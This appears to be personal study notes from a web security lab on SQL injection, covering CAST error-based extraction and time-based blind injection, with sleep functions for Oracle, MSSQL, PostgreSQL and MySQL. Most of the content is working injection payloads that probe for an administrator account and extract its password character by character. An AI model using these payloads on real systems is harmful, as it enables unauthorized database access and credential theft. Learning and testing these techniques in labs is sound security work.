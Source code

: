Using `CAST ()` function to achieve this
- enables you to convert one data type to another
```sql
-- often the data you're trying to read is a string
-- attempting to convert data type, into incompatible may cause error
CAST((SELECT example_column FROM example_table) AS int)

ERROR: invalid input syntax for type integer: "Example data"
```


# Blind SQL Injections by triggering time delays
SQL queries are triggered `synchronously`
MsSQL Server
```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
-- not delaying, condition is false
'; IF (1=1) WAITFOR DELAY '0:0:10'--
-- delays
```

Retrieve data by testing one char at a time
- there are various techniques for different dbs
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

`Lab`

| Oracle     | dbms_pipe.receive_message(('a'),10) |
| ---------- | ----------------------------------- |
| Microsoft  | WAITFOR DELAY '0:0:10'              |
| PostgreSQL | SELECT pg_sleep(10)                 |
| MySQL      | SELECT SLEEP(10)                    |
|            |                                     |
*PostgreSQL* db
Verify that app takes 10 sec to respond
```sql
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Verify that app does not sleep
```sql
'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Testing if username 'administrator' in table users
```sql
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Determining how many chars are in the password of administrator
- try it until you see immediate response
```sql
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
